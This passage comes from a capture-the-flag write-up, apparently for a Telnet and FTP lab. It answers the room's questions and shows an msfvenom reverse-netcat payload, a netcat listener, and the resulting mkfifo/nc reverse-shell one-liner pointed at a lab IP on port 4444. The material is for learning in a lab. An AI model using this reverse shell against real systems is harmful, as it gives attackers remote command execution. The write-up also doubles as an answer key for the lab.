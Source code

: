 ### What word does the generated payload start with?

```
msfvenom -p cmd/unix/reverse_netcat LHOST=10.9.101.193
```

![](<../../.gitbook/assets/Screenshot from 2020-09-08 23-13-18.png>)

### What would the command look like for the listening port we selected in our payload?

{% hint style="success" %}
nc -lvp 4444
{% endhint %}

### **Success! What is the contents of flag.txt?**

```
nc -nvlp 4444
cat flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-08 23-14-51.png>)

```
.RUN mkfifo /tmp/gtjkwze; nc 10.9.101.193 4444 0</tmp/gtjkwze | /bin/sh >/tmp/gtjkwze 2>&1; rm /tmp/gtjkwze
```

![](<../../.gitbook/assets/Screenshot from 2020-09-08 23-14-54.png>)

## :open\_file\_folder: FTP

### **What communications model does FTP use?**

{% hint style="success" %}
client-server
{% endhint %}
